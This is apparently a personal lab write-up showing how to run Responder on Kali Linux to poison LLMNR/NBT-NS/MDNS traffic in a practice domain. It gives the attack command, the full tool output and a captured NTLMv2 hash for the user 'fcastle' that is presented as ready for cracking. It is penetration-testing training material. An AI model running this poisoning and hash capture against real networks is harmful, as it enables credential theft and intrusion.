

# Capturing Hashes with Responder

`responder` is preinstalled on Kali Linux. It must be run either as `root` or
with `sudo` privileges. Before we run `responder` in our lab, we can use
`ifconfig` to double-check the name of our network interface (here: `eth0`) and
our IP address. We can also check the IP addresses of our Windows machines and
use `ping` to check general connection between the machines.

Hashes that have been captured once will not be shown again unless we use the
verbose flag (`-v`). We need to make sure that HTTP(S), SMB, LLMNR are all
switched on.

We can start `responder` with

```
sudo responder -I eth0 -dwPv
```

This leads to an error message "You cannot use WPAD server and Proxy_Auth
server at the same time, choose one of them." I will therefore try the flags
`-dPv` first and switch of WPAD since it is not required according to `responder -h`.


```
┌──(kali㉿kali)-[~]
└─$ sudo responder -I eth0 -dPv 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [ON]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.0.2.5]
    Responder IPv6             [fe80::894a:2922:b342:85c0]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-GZ3KWH86CYI]
    Responder Domain Name      [VKN4.LOCAL]
    Responder DCE-RPC Port     [46330]

[+] Listening for events...                 
```


We log into `THEPUNISHER` as `fcastle` and then use the Windows Explorer to
navigate to our attack box (`10.0.2.5` as per the `ifconfig` output before). We
immediately get NTLMv2 password hashes displayed in `responder`.





```
(...)

[*] [NBT-NS] Poisoned answer sent to 10.0.2.6 for name MARVEL (service: Browser Election)

[SMB] NTLMv2-SSP Client   : 10.0.2.6
[SMB] NTLMv2-SSP Username : MARVEL\fcastle
[SMB] NTLMv2-SSP Hash     : fcastle::MARVEL:ce342e09818e45dd:C72D9B8B06674079369D4DA1611FF472:01010000000000008034A0E90F01DC012F8C600B46E06F72000000000200080056004B004E00340001001E00570049004E002D0047005A0033004B00570048003800360043005900490004003400570049004E002D0047005A0033004B0057004800380036004300590049002E0056004B004E0034002E004C004F00430041004C000300140056004B004E0034002E004C004F00430041004C000500140056004B004E0034002E004C004F00430041004C00070008008034A0E90F01DC01060004000200000008003000300000000000000001000000002000004F03E308F51ACBFF1D02BBB0BFA614FB8C46C6B35C1F7B9181731E0EF4368BF60A0010000000000000000000000000000000000009001A0063006900660073002F00310030002E0030002E0032002E0035000000000000000000 

(...)
```


We can see what IP address the hash came from (`10.0.2.6`), what the domain and
user names are (`MARVEL` and `fcastle`). If we are confident that the password
may be weak, we can take it and try to crack it.


<!--
span style="color:green;font-weight:700;font-size:20px">
markdown color font styles
</span
-->
